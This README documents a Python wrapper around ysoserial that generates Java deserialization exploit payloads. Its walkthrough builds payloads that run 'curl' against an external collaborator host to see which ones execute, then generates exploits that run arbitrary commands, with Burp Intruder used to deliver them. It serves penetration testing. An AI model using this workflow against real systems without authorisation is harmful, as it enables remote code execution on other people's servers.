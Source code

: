 # ysoserial-wrapper

Python wrapper based for [ysoserial](https://github.com/frohoff/ysoserial) to make exploitation of the JAVA [Insecure Deserialization](https://portswigger.net/web-security/deserialization) user-friendly.

## Requirements
- Installed JAVA JDK 11
Kali:
```shell
sudo apt-get install openjdk-11-jdk
```
- Some python dependencies
```
pip3 install -r requirements.txt
```
- ysoserial itself
```
wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar
```

## Usage
```
python ysoserial-wrapper.py -h
usage: ysoserial-wrapper.py [-h] [-c 'COMMAND'] [-gzip] [-b64]

ysoserial-wrap.py - Command execution wrapper for ysoserial-all.jar

options:
  -h, --help            show this help message and exit
  -c 'COMMAND', --command 'COMMAND'
                        Command to be executed
  -gzip                 Compress the payload with gzip before encoding in base64
  -b64                  Do not url-encode, output base64 string

```

## Walkthrough
Without any parameters given, it will ask for a collaborator url:
```
python ysoserial-wrapper.py   
[*] No payload defined, using curl <collaborator_payload>/[payload_name]
[!]	Enter your collaborator payload:

```
and build every possible payload using command:
```
curl <collaborator_payload>/[payload_name]
```
and copy them to clipboard:
```
[+]		Generating Spring1 payload ...
[+]		Generating Spring2 payload ...
[+]		Generating URLDNS payload ...
[+]		Generating Vaadin1 payload ...

[!] There are 26 payloads waiting in your clipboard ...

```

You can use them in an Intruder attack to check which payloads worked:
![Collaborator](img/collaborator.png)

Then it will ask for payloads, which wored ...
```
[!] Paste in the payloads that worked (separated by spaces)
```
... and a command to execute
```
[!] Paste in the command you want to execute:
```

Nothing more to say:
```
[+]		Generating exploit with payload CommonsCollections2 ...
[+]		Generating exploit with payload CommonsCollections4 ...

[!] There are 2 exploits waiting in your clipboard... 
Good luck

```

## Worth reading

By default, the raw payload will be base64 encoded and next url encoded.
There are 2 switches to modify this behaviour:
- `-gzip` - will make the script to compress raw payload before encoding in base64
- `-b64` - will turn off url encoding, you will get a base64 encoded payload

You can also use `-c` or `-command` switch to generate payloads of your choice from the start.
Beware of quotes in commands :)

I also added a simple `.bcheck` snippet that will detect placing serialized cookies.
